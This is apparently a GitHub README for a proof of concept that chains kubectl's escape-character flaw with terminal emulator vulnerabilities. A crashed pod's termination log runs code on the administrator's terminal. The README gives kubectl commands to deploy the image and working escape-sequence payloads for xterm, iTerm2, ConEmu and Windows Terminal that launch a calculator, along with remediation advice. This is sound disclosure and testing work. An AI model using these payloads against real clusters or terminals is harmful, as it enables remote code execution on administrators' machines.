 # Kubectl escape character handling PoC

This is a proof of concept for [CVE-2021-25743][cve-2021-25743] combined with a
selection of terminal vulnerabilities I found that can achieve remote code
execution. It is delivered as a very simple Docker image for ease of testing.

## An imaginary scenario

Container escapes usually need a bug in the container infrastructure, like a
kernel bug or another bug in a subsystem like runc.

If an attacker is unable to abuse those, they may look for more creative means.
This is one such method, it relies on a pod crashing and the administrator
attempting to debug it, while using a terminal with a vulnerability.

In Kubernetes `/dev/termination-log` is world writable within the container and
it's very trivial to crash a container (e.g. run it out of memory). This means
if an attacker finds a way to make an application write to that file and also
DoS an application, they can potentially make the administrator start looking
and in the process get attacked.

This means the container does not need Kubernetes API access of any kind, a
common way to reduce Kubernetes attack surface is to [turn off the service
account secret][apicred] which is automatically mounted in each pod. The issue
with /dev/termination-log is not new, Trail of Bits covered it in their [2019
audit of Kubernetes][2019audit] and a [PR is open][pr108076].

## Usage

_Only use this on systems you have permission to test._

With kubectl configured with a cluster and namespace you have access to create
pods in, simply:

```
kubectl run --image=davidgl/houdini-kubectl-poc kubectl-poc
sleep 10  # or however long the cluster take to schedule the pod
kubectl describe kubectl-poc
```

The pod deliberately crashes. Manual cleanup is needed; delete the
pod when finished:

```
kubectl delete pod/kubectl-poc
```

## CVEs

This primarily targets Kubectl's CVE-2021-25743. It needs to be combined with a
terminal vulnerability to have any effect though. Some examples are:

- xterm font ([CVE-2022-45063][CVE-2022-45063])

  `"\e]50;i$(xcalc&)\a\e]50;?\a"`

- iTerm2 DECRQSS ([CVE-2022-45872][CVE-2022-45872])

  `"\eP$q;open -a Calculator\r\e\\\eP$q\e\\"`

- ConEmu title ([CVE-2022-46387][CVE-2022-46387])

  `"\e]0;\rcalc.exe\r\e\\\e[21t"`

- Windows Terminal ([CVE-2022-44702][CVE-2022-44702])

  `"\e]9;9;/" calc.exe "o /\e\\"`

- Some colour (not a terminal vulnerability, test for CVE-2021-25743 alone)

  `"\e[31mIf you see this in red your kubectl is not fixed against CVE-2021-25743\e[m"`

The list above contains escape sequences in C-style strings, as this section of
the readme is expanded and written to /dev/termination-log, see
[Dockerfile](Dockerfile).

## I'm vulnerable, help?

- Update to kubectl of at least 1.26;
- Update your terminal

## Credits

- Eviatar Gerzi for [finding the kubectl issue][cyberark-title] originally;
- All the terminal authors for fixing things.

[cve-2021-25743]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-25743
[CVE-2022-45063]: https://www.openwall.com/lists/oss-security/2022/11/10/1
[CVE-2022-45872]: https://nvd.nist.gov/vuln/detail/CVE-2022-45872
[CVE-2022-44702]: https://github.com/microsoft/terminal/releases/tag/v1.15.2874.0
[CVE-2022-46387]: https://gist.github.com/dgl/05ca60cdc7efc9e47bbc58d0c952635e
[pr108076]: https://github.com/kubernetes/kubernetes/pull/108076
[apicred]: https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/#opt-out-of-api-credential-automounting
[2019audit]: https://github.com/kubernetes/sig-security/blob/6f1cec8878c705b67982e9b3bf3b52d6f19e17e0/sig-security-external-audit/security-audit-2019/findings/Kubernetes%20Final%20Report.pdf
[cyberark-title]: https://www.cyberark.com/resources/threat-research-blog/dont-trust-this-title-abusing-terminal-emulators-with-ansi-escape-characters
